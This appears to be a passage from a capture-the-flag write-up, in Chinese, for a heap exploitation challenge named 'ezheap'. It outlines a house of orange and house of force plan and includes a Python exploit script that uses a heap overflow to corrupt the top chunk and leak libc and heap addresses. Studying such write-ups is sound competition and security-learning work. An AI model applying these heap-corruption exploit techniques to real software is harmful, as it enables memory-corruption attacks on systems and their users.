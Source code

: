 ![image-20240926200833547](https://oss.nova.gal/img/image-20240926200833547.png)



## ezheap

题目可以随意 malloc，没有 free 函数，有堆溢出

想到可以利用 house of orange 造 ub 转 large 泄露 libc 和 heap

接着利用 house of force 把 topchunk 分配到 tcache_struct

任意堆块分配，远程打了 IO，本地直接改了栈返回地址



```python
from pwno import *

sh = gen_sh()


def menu(idx: int):
    sla(b"exit:", str(idx).encode())


def add(size: int):
    menu(1)
    sla(b"size to add:", str(size).encode())


def show(idx: int):
    menu(3)
    sla(b"index to show:", str(idx).encode())


def edit(idx: int, size: int, data: bytes):
    menu(4)
    sla(b"index to edit:", str(idx).encode())
    sla(b"size", str(size).encode())
    sa(b"input", data)


add(0x10)  # 0
edit(0, 0x20, b"A" * 0x18 + p64(0xD91))
add(0xD90)  # 1
add(0x10)  # 2
show(2)

recvu(b": ")
libc.address = uu64(recv(6)) - 0x3EBCA0 - 0x600
success(libc.address)

debug(libc.sym["puts"] + 0x6D04E)
debug(libc.sym["puts"] + 0x6D64E)
debug(libc.sym["puts"] + 0x5995B2)
debug(libc.sym["puts"] + 0x599596)


add(0xD70)  # 3
add(0xD40)  # 4
edit(4, 0x10, b"A" * 0x10)
show(4)

recvu(b"A" * 0x10)
heap = uu64(recvn(6)) - 0x290
success(heap)
```